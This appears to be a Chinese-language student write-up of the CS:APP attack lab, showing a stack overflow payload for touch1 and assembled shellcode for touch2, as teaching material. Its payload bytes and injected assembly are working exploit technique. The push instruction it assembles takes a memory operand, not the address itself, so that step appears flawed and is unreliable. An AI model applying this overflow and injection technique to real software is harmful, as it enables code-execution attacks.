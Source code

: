 因为文件的特殊性不能直接运行无法用pwntools模块搞定要配合给的hex2row文件

虽然buf距离返回地址0x28但是buf只有32大小所以我们传入40个字 在传入我们的地址0x4017c0

构造如下

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```



## touch2

```
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

比较cookie值 cookie是0x59b997fa

利用溢出跳转到函数touch2并且传入cookie值

我们需要用到汇编语言编写命令

```
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

rdi里面存放我们cookie的值

0x4017ec在ida是完成压栈命令

```
00000000004017EC                 sub     rsp, 8
```

我们将命令转为二进制文件

```
q@ubuntu:~$ gcc -c 2.s
q@ubuntu:~$ objdump -d 2.o

2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	ff 34 25 ec 17 40 00 	pushq  0x4017ec
   e:	c3                   	retq   
```